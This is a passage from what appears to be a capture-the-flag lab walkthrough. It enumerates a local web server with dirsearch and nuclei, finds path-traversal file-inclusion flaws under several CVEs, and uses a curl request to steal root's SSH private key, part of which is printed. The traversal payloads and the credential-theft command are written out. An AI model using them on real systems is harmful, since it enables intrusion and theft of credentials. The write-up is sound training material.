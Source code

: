 On the main page, we didn’t find anything of interest, and after running Nuclei, it didn’t yield any useful results. So, we will search for other directories using Dirsearch (Dirsearch is a directory enumeration tool for websites that helps uncover hidden paths and files on the web server by using a dictionary of potential directory and file names.)

```bash
❯ dirsearch -u http://localhost:8080
Target: http://localhost:8080/

[18:40:08] Starting: 
[18:40:27] 403 -   14B  - /assets/
[18:40:27] 403 -   14B  - /assets
```

We only found the 'assets' folder with a forbidden access. So, our last option was to try using Nuclei, and to our surprise, we discovered that the application is vulnerable to LFI (Local File Inclusion). LFI is a vulnerability that allows an attacker to include local files on the server, potentially leading to the exposure of sensitive information or the remote execution of malicious code if not properly managed. This occurs when the web application allows users to include files via URL parameters without proper validation.

```bash
❯ nuclei -u http://localhost:8080/assets
                     __     _
   ____  __  _______/ /__  (_)
  / __ \/ / / / ___/ / _ \/ /
 / / / / /_/ / /__/ /  __/ /
/_/ /_/\__,_/\___/_/\___/_/   v3.3.9

		projectdiscovery.io

[INF] Current nuclei version: v3.3.9 (latest)
[INF] Current nuclei-templates version: v10.1.3 (latest)
[WRN] Scan results upload to cloud is disabled.
[INF] New templates added in latest release: 52
[INF] Templates loaded for current scan: 7709
[INF] Executing 7520 signed templates from projectdiscovery/nuclei-templates
[WRN] Loading 189 unsigned templates for scan. Use with caution.
[INF] Targets loaded for current scan: 1
[INF] Templates clustered: 1708 (Reduced 1614 Requests)
[INF] Using Interactsh Server: oast.pro
[CVE-2024-23334] [http] [high] http://localhost:8080/assets/static/../../../../etc/passwd
[CVE-2018-16288] [http] [high] http://localhost:8080/assets/signEzUI/playlist/edit/upload/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f../etc/passwd
[CVE-2021-25864] [http] [high] http://localhost:8080/assets/hue/assets/..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2fpasswd
[CVE-2021-3223] [http] [high] http://localhost:8080/assets/ui_base/js/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd
```

Given that this machine has an easy difficulty level, we will go ahead and attempt to retrieve the `id_rsa` file for the root user

```bash
❯ curl http://localhost:8080/assets/ui_base/js/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2froot%2f.ssh%2fid_rsa > id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAsFbYzGxskgZ6YM1LOUJsjU66WHi8Y2ZFQcM3G8VjO+NHKK8P0hIU
UbnmTGaPeW4evLeehnYFQleaC9u//vciBLNOWGqeg6Kjsq2lVRkAvwK2suJSTtVZ8qGi1v
j0wO69QoWrHERaRqmTzranVyYAdTmiXlGqUyiy0I7GVYqhv/QC7jt6For4PMAjcT0ED3Gk
HVJONbz2eav5aFJcOvsCG1aC93Le5R43Wgwo7kHPlfM5DjSDRqmBxZpaLpWK3HwCKYITbo
DfYsOMY0zyI0k5yLl1s685qJIYJHmin9HZBmDIwS7e2riTHhNbt2naHxd0WkJ8PUTgXuV2
UOljWP/TVPTkM5byav5bzhIwxhtdTy02DWjqFQn2kaQ8xe9X+Ymrf2wK8C4ezAycvlf3Iv
ATj++Xrpmmh9uR1HdS1XvD7glEFqNbYo3Q/OhiMto1JFqgWugeHm715yDnB3A+og4SFzrE
vrLegAOwvNlDYGjJWnTqEmUDk9ruO4Eq4ad1TYMbAAAFiPikP5X4pD+VAAAAB3NzaC1yc2
EAAAGBALBW2MxsbJIGemDNSzlCbI1Oulh4vGNmRUHDNxvFYzvjRyivD9ISFFG55kxmj3lu
```